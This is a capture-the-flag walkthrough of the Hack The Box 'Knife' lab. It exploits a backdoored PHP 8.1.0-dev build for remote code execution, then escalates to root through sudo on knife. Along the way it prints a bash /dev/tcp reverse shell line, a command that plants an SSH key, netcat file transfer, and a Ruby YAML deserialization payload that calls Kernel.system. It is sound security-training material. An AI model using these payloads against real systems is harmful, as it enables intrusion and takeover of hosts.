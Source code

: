 # HTB Knife
## OS: Linux
## Difficulty: Easy

### Enumeration:
I'll start with a port scan.

```bash
nmap -sC -sV -p- -oN outputNMAP.txt 10.129.59.37
```

```
PORT   STATE SERVICE VERSION                                                                                                                                                                                                                
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)                                                                                                                                                           
| ssh-hostkey:                                                                                                                                                                                                                              
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)                                                                                                                                                                              
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)                                                                                                                                                                             
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)                                                                                                                                                                           
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))                                                                                                                                                                                         
|_http-title:  Emergent Medical Idea                                                                                                                                                                                                        
|_http-server-header: Apache/2.4.41 (Ubuntu)                                                                                                                                                                                                
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel              
```

I'll take  a look at the web page.

![page](IMG/img1.png)

Using whatweb we get the following:
```bash
whatweb http://10.129.59.37

http://10.129.59.37 [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.129.59.37], PHP[8.1.0-dev], Script, Title[Emergent Medical Idea], X-Powered-By[PHP/8.1.0-dev]
```

### Foothold
Using searhcsploit I found an RCE for php 8.1.0-dev.

```bash
search 8.1.0-dev

PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution  php/webapps/49933.py
```

Looking at the script we can see the use of header User-Agentt for command execution.

I'll start BurpSuite and try it.

![rce](IMG/img2.png)

We can see it works. Now let's get a shell.

I'll start listening on port 6666.
```bash
rlwrap nc -lnvp 6666
```

Payload:
```bash
bash -i >& /dev/tcp/10.10.14.53/6666 0>&1
```

![sht](IMG/img3.png)

This does not work.

But we have access to to the .ssh folder.I'll add my key to the authorized_keys and use ssh to connect to the server.

```payload
echo <key.pub> >home/james/.ssh/authorized_keys;chmod 600 home/james/.ssh/authorized_keys
```

Let's connect via ssh.
```bash
ssh james@10.129.59.37 -i mykey
```

![ssh](IMG/img5.png)

It worked! We can get the user flag.

```bash
cat ~/user.txt
```

### We got the user flag!

### Pirvilege Escalation:

Let's see if we can run anything as root.
```bash
sudo -l


User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

Let's take a look at the script. For this I'm gonna transfer the file to my machine.

Host:
```bash
nc -lvp 6666 > knife
```

Target:
```bash
nc 10.10.14.53 6666 < /usr/bin/knife
```

After inspecting the file I tried running it on the target and something stood out to me. It loads a lot of libraries and not all of them are upt to date.

```bash
** YAML COMMANDS **
knife yaml convert YAML_FILENAME [RUBY_FILENAME]
```

Searching for privilege escalation via ruby yaml I found this: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/Ruby.md

I made a yaml file with the following content:

```yml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: /bin/sh -i
         method_id: :resolve
```

And used it with the yaml convert function of the script.

```bash
sudo /usr/bin/knife yaml convert dependencies.yml
```

![sudo](IMG/img6.png)

And it worked!

Let's get the root flag.

```bash
cat /root/root.txt
```

### We got the root flag!